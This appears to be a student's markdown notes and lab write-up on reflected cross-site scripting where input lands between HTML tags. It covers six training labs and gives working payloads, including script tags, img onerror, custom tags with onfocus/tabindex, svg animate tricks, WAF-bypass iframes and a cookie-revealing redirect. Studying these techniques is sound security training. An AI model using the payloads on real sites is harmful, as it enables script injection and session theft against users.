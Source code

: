 When the XSS context is text between HTML tags, you need to introduce some new HTML tags designed to trigger execution of JavaScript.
Some useful ways of executing JavaScript are:
`<script>alert(document.domain)</script>`
`<img src=1 onerror=alert(1)>`

---
## Exploits
1. `<img src=1 onerror=alert(1)>`
2. `<img src=1 onerror=alert(1)>`
3. `<body onresize=print(1)>`
  `<iframe src="https://academy.net/?search=%3Cbody+onresize%3D%22print%28%29%22%3E" onload=this.style.width='1200px'>`
4. `<superman onfocus='alert(1)' id='x' tabindex='1'>`, 
  `https://abc.com?search=%3Csuper-man+onfocus%3D%27alert%281%29%27+id%3D%27x%27+tabindex%3D1%3E#x`
5. `<svg><a><animate attributeName=href values=javascript:alert(1) /><text>Click me</text>`
6. `<svg><animatetransform onbegin=alert(1) attributeName=transform>`


```js
<h1> Your search result 'ControlledValue' </h1>
<p>ControlledValue</p>
<h1></h1>
<h1></h1>
<h1></h1>
<h1></h1>
```

## main ideas
- You don't need to escape `<h1>`, `<p>` tags.

---
## Labs
### lab1
inside `<h1>`
```js
<section class="blog-header">
	<h1> 
		0 search results for 'ControllerValue'
	</h1>
</section>

___Exploit___
<img src=1 onerror=alert()> or
</h1><img src=1 onerror=alert(1)> or
<script>alert(1)</script>
```

### lab2
inside `<p>`
```js
<section class="comment">
	<p>
		<img src="/resources/images/avatarDefault.svg" class="avatar">
		<a id="author" href="http://ControlledValue.com">ControlledValue</a> | 10 October 2025
    </p>
	<p>ControlledValue</p>       //body
    <p></p>
</section>

____Exploit_____
<img src=1 onerror=alert()>
```

### lab3
#### WAF bypass
Some tags and attribute are blocked, Use burp intruder to guess all possible tags and attributes. 
```js
<h1> 
		0 search results for 'ControllerValue'
</h1>

____Exploit___server__
<iframe src="https://0a7b0062046131b8804521f5003000e1.web-security-academy.net/?search=%3Cbody+onresize%3D%22print%28%29%22%3E" onload=this.style.width='1200px'>

```

### lab4
#### Custom tags
- We can create our own custom tags by using `-` in middle of the name like `<custom-tag >` , `<customer-tag >`, `<sonic-man >`. even if this is unknown for the browser, when we add event to those tags it will be executed. `<sonic-man onmouseover=alert(1)>`.
- we can use `onfocus` attribute and `id='x'` and `tabindex` combined with hash `#` while using the url. so when we reqeust the page `http://abc.com#x` we focus on the attr.
	- We use `id` to be referenced using `#`, but this doesn't give us focus event. 
	- We combine it with attribute `tabindex` to give us focus event when we refrence its `id` using `#`.
```js
<h1>
	'controllerValue'
</h1>

___Exploit__server__

<script>
location = 'https://0a4d003404a216dc8065b77000af005b.web-security-academy.net/?search=%3Csuper-man+onfocus%3D%27alert%28document.cookie%29%27+id%3D%27x%27+tabindex%3D1%3E#x';
</script>
```
WE DON'T NEED EXPLOIT SERVER FOR THIS EXPLOIT, we can deliver it to victem and it will be successful.

### lab5
only `svg`, `animate`, `a` are allowed.
- `svg` can have other tags inside of it like `a`.
- `animate`is a tag that only exists inside `svg`tag. and used to specify attributes inside `tags` within `svg` for animating `svg`.  Example
```js
  <svg>
	  <img src=1>
		  <animate attributeName=onerror values=alert(1)>
```
- if we want to declare text on `svg`, we need to put the text inside `<text>`. --> `<svg><a><text>hello</text></a>`
- The main idea is, if `href` is blocked we can use `svg` + `animate` as alternative for creating `href` attribute.
```js
<svg>
	<a>
		<animate attributeName=href values=javascript:alert(1) />
		<text>Click me</text>
```


### lab6
only `svg`, `animatetransform`are allowed. and `onbegin` is the only allowed event listner.
```js
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```
